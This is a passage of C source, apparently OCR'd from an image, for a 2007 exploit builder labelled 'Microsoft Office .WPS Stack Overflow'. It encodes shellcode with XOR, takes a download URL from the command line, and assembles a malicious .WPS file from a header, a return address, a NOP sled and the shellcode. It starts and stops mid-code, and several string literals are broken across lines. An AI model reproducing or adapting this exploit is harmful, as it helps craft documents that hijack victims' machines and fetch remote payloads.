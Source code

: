  // Deal with DeCode string
 *(unsigned char *)&sc[SC_LEN_OFFSET] = Sc_len;
 *(unsigned char *)&sc[ENC_KEY_OFFSET] = Enc_key;

 // Print decode
 //printf("/* %d bytes decode */
", DECODE_LEN);
 //PrintSc(sc, DECODE_LEN);

 // Print shellcode
 //printf("/* %d bytes shellcode, xor with 0x%02x */
", Sc_len-DECODE_LEN, Enc_key);
 //PrintSc((char*)sc+DECODE_LEN, Sc_len-DECODE_LEN);
}

int main( int argc, char **argv ) {
WSADATA wsa;
 FILE *f;
char szBuffer[1024*10];
WSAStartup(MAKEWORD(2,2),&wsa);

printf("
Microsoft Office .WPS Stack Overflow
"
 " Adam Walker (c) 2007
"
" Modified by Mika[EST]
");
if ( argc < 4 ) {
 printf("%s
", szIntro );
 return 0;
 }
memcpy(url,argv[3],strlen(argv[3]));
 printf("[+] download url:%s
", url);
 printf("[+] Generating Shellcode...
");

 Make_ShellCode();
 memset(szBuffer, 0x90, 1024*10);
 printf("[+] Creating WPS header...
");
 memcpy( szBuffer, uszWpsHeader, sizeof( uszWpsHeader ) - 1 );
 printf("[+] Copying addr && nops && shellcode...
");
 memcpy( szBuffer + sizeof( uszWpsHeader ) - 1, targets[atoi(argv[1])-1].uszRet, 4 );
 memcpy(szBuffer + sizeof( uszWpsHeader ) + 3,NOPS,16);
 memcpy( szBuffer + sizeof( uszWpsHeader ) + 3+16, sc, sizeof( sc ) - 1 );

 f = fopen( argv[2], "wb" );
 if ( f == NULL ) {
 printf("[-] Cannot create file
");
 return 0;
 }
